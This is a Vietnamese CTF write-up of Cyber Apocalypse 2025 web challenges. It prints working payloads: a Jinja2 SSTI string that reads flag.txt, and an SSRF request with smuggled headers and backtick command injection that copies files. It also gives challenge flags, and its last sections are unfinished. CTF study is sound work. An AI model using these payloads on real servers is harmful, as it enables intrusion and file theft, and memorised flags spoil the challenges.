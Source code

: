 ```yaml
---
title: "Cyber Apocalypse CTF 2025: Tales from Eldoria"
date: 2025-06-28
draft: false
description: "for funnn"
tags: ["web"]
---
```


# Cyber Apocalypse CTF 2025: Tales from Eldoria

# Mục Lục

**Cyber Apocalypse CTF 2025: Tales from Eldoria**

![image](https://hackmd.io/_uploads/rJvMf4fa1e.png)

- [Whispers of the Moonbeam -> CMDI](#HTB-1)
- [Trial by Fire -> SSTI](#HTB-2)
- [Cyber Attack -> SSRF](#HTB-3)
- [Eldoria Panel](#HTB-4)
- [Eldoria Realms](#HTB-5)
- [Aurors Archive](#HTB-6)

## HTB 1

![image](https://hackmd.io/_uploads/ryOiFq-TJg.png)
Thử thêm `;` vào
![image](https://hackmd.io/_uploads/HynJ55WaJg.png)
**FLAG** : `HTB{Sh4d0w_3x3cut10n_1n_Th3_M00nb34m_T4v3rn_b3872c798c16be5a94c8b3498ca76f9e}`

## HTB 2

![image](https://hackmd.io/_uploads/Hkw8c9-pyx.png)
Hãy check thử 1 vài payload đơn giản
![image](https://hackmd.io/_uploads/S1u-sc-6Jl.png)
Tuy nhiên lưu ý rằng phần mà nó render là trang này
![image](https://hackmd.io/_uploads/ByuFQibaJe.png)
![image](https://hackmd.io/_uploads/Hk-INjWTJx.png)
![image](https://hackmd.io/_uploads/H1rzVibakl.png)
giờ xem nó render thế nào thì phải qua api `@web.route('/battle-report', methods=['POST'])`
![image](https://hackmd.io/_uploads/BJrOSoZp1e.png)

```python==
damage_dealt={{ request.__class__._load_form_data.__globals__.__builtins__.open("flag.txt").read() }}
```

[Document](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html)

**FLAG**:`HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_d703a81708e499d0a9c8864989b22d2d}`

## HTB 3

mất khá nhiềy thời gian thì mình chỉ có 1 hướng đó là XSS đến
Đây là đoạn code bị lỗi chăng
![image](https://hackmd.io/_uploads/BJMiWfo3yx.png)
![image](https://hackmd.io/_uploads/SkkCWfj2ye.png)
Nó chỉ cho loopback ip
![image](https://hackmd.io/_uploads/S1CQ7Mjhyg.png)
Tuy nhiên để bypass qua reg của nó thì khá khó
Nên mình nghĩ đến hàm tương tự đó là attack ip
![image](https://hackmd.io/_uploads/ByNgFZp2Jg.png)
Tuy nhiên lại setting ip để nó có thể enable nút này
![image](https://hackmd.io/_uploads/HJKtFb6nkg.png)
Làm thế nào để set ip đây
![image](https://hackmd.io/_uploads/rklYPbp3kx.png)
:::success
Sau tất cả thì mình nghĩ là sẽ thay đổi ip của mình để trigger được phần attack ip sau đó command injection
:::
:::danger

- Vẫn ý tưởng cũ là fake local nhưng sau đó copy flag ra ngoài
- Như ở trên ta có hai con đường để tương tác với os đó là attack domain và attack ip tuy nhiên attack domain bị filter khá chặt và chắc chắn sẽ rơi vào dòng này

![image](https://hackmd.io/_uploads/Sykdj_GpJg.png)
Vậy muốn đi tiếp thì chỉ có cách lợi dụng biến `$name` .

- Còn attack ip thì đã bị disable . Ít nhất phải check ip local mới enable được
- Vậy ta sẽ lợi dụng biến **$name** này như 1 **browser** để **render** 1 gói tín **request** khác

![image](https://hackmd.io/_uploads/r1e0adM6yg.png)
[From orange](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#%E2%9C%94%EF%B8%8F-2-1-2-Disclose-PHP-Source-Code)
bắt trước theo và gắn vào `name`
Như vậy đã có thể gửi request đến với local
Làm thế nào để tương tác với os  
![image](https://hackmd.io/_uploads/B191GFf6kx.png)
Đi sâu vào hàm `ip_address`
![image](https://hackmd.io/_uploads/SJJrzFfpkg.png)
![image](https://hackmd.io/_uploads/S1fpzFz6Jx.png)
Như vậy ý tướng sẽ là `1::%` + `payload`
![image](https://hackmd.io/_uploads/SJqvYYMTyl.png)
ý tưởng sẽ copy nó ra ngoài thư mục root
đây là payload
LƯU Ý:

- dùng ` để lấy ra kết quả của shell trên **URL**

```python==
http://
Location:/ooo
Content-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip?target=::1%`cd+..;cd+..;cd+..;cp+flag*+$(printf+"/var/www/html/flagHTB.txt")`&name=meo

HTTP/1.1
```

đây là giá trị của biến `$name`
thử encode url để xem
![image](https://hackmd.io/_uploads/rJhLItz6kx.png)
Không được . Có thể do các kí tự bên trong như `;` ; `/` thử thay nó bằng Mã ASCII
`;` -> `3B`
`/` -> `2F`
PAYLOAD cuối cùng

```python=
http://
Location:/ooo
Content-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip?target=::1%`cd+..3Bcd+..3Bcd+..3Bcp+flag*+$(printf+"2Fvar2Fwww2Fhtml2FflagHTB.txt")`&name=meo

HTTP/1.1

```

sau dó url encode nó lại
![image](https://hackmd.io/_uploads/ryXzKKzpkx.png)
![image](https://hackmd.io/_uploads/BkSotFzpyg.png)
**FLAG:**`HTB{h4ndl1n6_m4l4k4r5_f0rc35}`
:::

## HTB 4

![image](https://hackmd.io/_uploads/BJzzzI6hkl.png)
![image](https://hackmd.io/_uploads/r1CJEIpnJl.png)
![image](https://hackmd.io/_uploads/HyJ4NUpn1l.png)
Tuy nhiên nó đã bị filter bới `escapeshellarg()`
Không khả thi
`companions` thì có vẻ không có gì
![image](https://hackmd.io/_uploads/SJUAwUT3yg.png)
Nếu mà là SQLi thì update được user và passwd của admin chăng
càng hợp lí hơn khi mà trong sr có trang của admin
tuy nhiên
![image](https://hackmd.io/_uploads/BJgytK63yl.png)
![image](https://hackmd.io/_uploads/ryDAjt631l.png)
Dựa vào SQLi để fake những thông tin trên sao ????
Mục đích giờ là đi vào admin

## HTB 5

## HTB 6

##
